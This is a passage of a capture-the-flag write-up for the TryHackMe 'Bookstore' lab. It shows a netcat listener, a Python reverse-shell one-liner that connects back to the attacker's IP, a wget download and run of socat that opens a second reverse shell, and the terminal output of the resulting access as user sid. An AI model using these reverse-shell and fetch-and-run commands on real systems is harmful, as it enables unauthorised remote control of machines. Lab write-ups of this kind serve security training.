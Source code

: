 - Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Bookstore]
└─# nc -lnvp 443
listening on [any] 443 ...
```

- Send a python reverse shell: (Generated from [revshell.com](https://www.revshells.com/))

```py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.253",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Bookstore/images/a15.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Bookstore]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.9.0.253] from (UNKNOWN) [10.10.116.175] 55006
sid@bookstore:~$ whoami;hostname;id;ip a
whoami;hostname;id;ip a
sid
bookstore
uid=1000(sid) gid=1000(sid) groups=1000(sid)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:5f:3c:06:69:8b brd ff:ff:ff:ff:ff:ff
    inet 10.10.116.175/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2645sec preferred_lft 2645sec
    inet6 fe80::5f:3cff:fe06:698b/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm user `sid`!

**user.txt:**
```
sid@bookstore:~$ cat /home/sid/user.txt
{Redacted}
```

**Stable shell via `socat`:**
```
┌──(root🌸siunam)-[/opt/static-binaries/binaries/linux/x86_64]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

sid@bookstore:~$ wget http://10.9.0.253/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane

┌──(root🌸siunam)-[~/ctf/thm/ctf/Bookstore]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2022/10/22 03:28:20 socat[38546] N opening character device "/dev/pts/2" for reading and writing
2022/10/22 03:28:20 socat[38546] N listening on AF=2 0.0.0.0:4444
                                                                 2022/10/22 03:28:34 socat[38546] N accepting connection from AF=2 10.10.116.175:42772 on AF=2 10.9.0.253:4444
                                                                   2022/10/22 03:28:34 socat[38546] N starting data transfer loop with FDs [5,5] and [7,7]
                                               sid@bookstore:~$ 
sid@bookstore:~$ stty rows 22 columns 107
sid@bookstore:~$ export TERM=xterm-256color
sid@bookstore:~$ ^C
sid@bookstore:~$ 
```
